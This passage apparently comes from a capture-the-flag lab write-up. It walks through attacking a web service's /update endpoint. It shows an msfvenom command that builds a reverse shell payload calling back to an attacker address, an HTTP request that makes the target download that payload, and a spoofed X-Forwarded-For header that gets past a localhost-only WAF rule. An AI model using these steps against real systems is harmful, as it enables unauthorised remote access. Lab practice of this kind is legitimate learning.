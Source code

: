 - Our vector is seems clear, use the /update endpoint and post a binary file with our reverse shell hosted on the url.

```shell
msfvenom -p linux/x84/shell_reverse_tcp LHOST=192.168.45.215 LPORT=4444 -f elf > shell.elf
```

```http
POST /update HTTP/1.1

Host: 192.168.214.134:13337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Content-Type: application/json

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 69



{"user":"admin", "url":"http://192.168.45.215:8000/shells/shell.elf"}
```

- Accessing the /logs endpoint identifies an error message **WAF: Access Denied for this Host**
- We can assume this is restricting access to localhost
- So we need to modify our request to appear if its coming from internally

<https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Forwarded>

For this purpose we should look at **client origin** headers.

```
X-Forwarded-Host
X-Forwarded-For
X-Frame-Options
X-Content-Type-Options
X-XSS-Protection
Set-Cookie
```

![image](https://github.com/1Gould/Proving-Grounds/assets/7574362/49f89f3d-7bdb-4a3b-ba65-b2204e175dd0)


```shell
X-Forwarded-For: 127.0.0.1
```
